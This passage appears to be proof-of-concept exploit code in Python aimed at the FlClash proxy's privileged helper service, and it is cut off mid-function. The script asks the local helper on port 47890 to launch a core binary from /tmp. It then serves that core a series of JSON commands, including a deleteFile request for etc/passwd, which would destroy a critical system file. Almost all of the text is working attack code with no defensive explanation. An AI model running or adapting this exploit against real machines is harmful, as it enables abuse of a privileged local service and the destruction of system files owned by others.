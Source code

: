 


```py
import requests
import socket
import threading
import time
import json


SERVICE_PORT = 47890


def start_flclash(port):
    try:
        print(
            "req",
            requests.post(
                f"http://localhost:{SERVICE_PORT}/start",
                json={"path": "/tmp/FlClashCore_nobody", "arg": f"{port}"},
            ).text,
        )
    except requests.exceptions.RequestException as e:
        print(f"[!!!] Failed to start FlClashCore: {e}, maybe helper is not running?")


PREDEFINED_MESSAGES = [
    b'{"id":"1","method":"startLog","data":"test.log"}',
    b'{"id":"1","method":"initClash","data":"{\\"home-dir\\":\\"/tmp\\",\\"version\\":1}"}',
    b'{"id":"1","method":"deleteFile","data":"etc/passwd"}',
    b'{"id":"1","method":"setupConfig","data":"{}"}',
]


def handle_client(client_socket, client_address):
    """
    处理单个客户端连接的函数。
    """
    print(f"[*] Accepted connection from {client_address[0]}:{client_address[1]}")
    try:
        buffer = b""
        for i, message_to_send in enumerate(PREDEFINED_MESSAGES):
            print(
                f"[>] Sending message {i + 1} to {client_address[0]}:{client_address[1]}"
            )
            print(
                f"[DEBUG] Sending {len(message_to_send)} bytes to client. \n{message_to_send}\n"
            )
            client_socket.sendall(message_to_send + b"\n")

            # 等待接收客户端应答
            # 循环读取直到找到换行符或者连接关闭
            while True:
                data = client_socket.recv(4096)
                if not data:
                    print(
                        f"[-] Client {client_address[0]}:{client_address[1]} disconnected unexpectedly after sending message {i + 1}"
                    )
                    raise ConnectionError("Client disconnected")
                buffer += data
                if b"\n" in buffer:
                    line, buffer = buffer.split(b"\n", 1)
                    print(
```